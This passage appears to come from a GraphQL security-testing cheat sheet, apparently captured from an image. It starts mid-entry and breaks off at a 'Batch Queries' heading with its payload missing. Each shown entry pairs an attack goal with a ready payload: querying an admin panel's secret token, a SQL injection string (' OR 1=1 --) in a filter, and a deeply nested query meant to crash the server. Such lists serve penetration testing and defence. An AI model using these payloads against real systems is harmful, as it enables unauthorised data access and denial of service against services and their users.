 **Goal**: Access restricted fields  
**Payload**:

```graphql
query { adminPanel { secretToken } }
```

---

### SQL Injection in Filters

**Goal**: Inject malicious query logic  
**Payload**:

```graphql
query {
  users(where: { name: { _eq: "' OR 1=1 --" } }) {
    id
  }
}
```

---

### Deep Recursion (Denial of Service)

**Goal**: Crash the server or spike CPU  
**Payload**:

```graphql
query {
  user(id: 1) {
    posts {
      comments {
        user {
          posts {
            comments {
              user {
                name
              }
            }
          }
        }
      }
    }
  }
}
```

---

### Batch Queries (Mass Enumeration)

**Goal**: Enumerate data via batching  
**Payload**:
